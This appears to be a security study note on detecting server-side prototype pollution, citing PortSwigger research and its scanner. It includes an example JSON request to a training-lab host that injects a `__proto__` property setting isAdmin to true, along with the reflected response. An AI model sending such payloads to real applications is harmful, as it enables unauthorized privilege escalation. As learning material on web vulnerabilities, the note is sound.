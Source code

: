 # General PPSS detection

Server-side prototype pollution is generally more difficult to detect than its client-side variant:

- **No source code access**
- **Lack of developer tools**
- **The DoS problem** [^DOS]
- **Pollution persistence**

[^DOS]: https://portswigger.net/research/server-side-prototype-pollution

To facilitate the detection, Port Swigger developed an appropriate extension: Server-Side Prototype Pollution Scanner [^SSPP-scanner]

[^SSPP-scanner]: https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8

## Detecting server-side prototype pollution via polluted property reflection

If the application later includes the returned properties in a response, this can provide a simple way to probe for server-side prototype pollution.
`POST` or `PUT` requests that submit JSON data to an application or API are prime candidates for this kind of behavior as it's common for servers to respond with a JSON representation of the new or updated object.

>[!tip]
>Any features that involve updating user data are worth investigating as these often involve merging the incoming data into an existing object that represents the user within the application.

```http
POST /my-account/change-address HTTP/2
Host: 0a78000a0322825c8031d52400a80096.web-security-academy.net
Cookie: session=j3iHkMF3RHMljUc7geZ5vDq5ONjh3cs2
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "isAdmin":"true"
    }
}
```

If the website is vulnerable, your injected property would then appear in the updated object in the response (in this case, we set the `isAdmin` value to `true`):

```http
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "isAdmin":"true"
}
```


[^1]:  https://blog.p6.is/AST-Injection/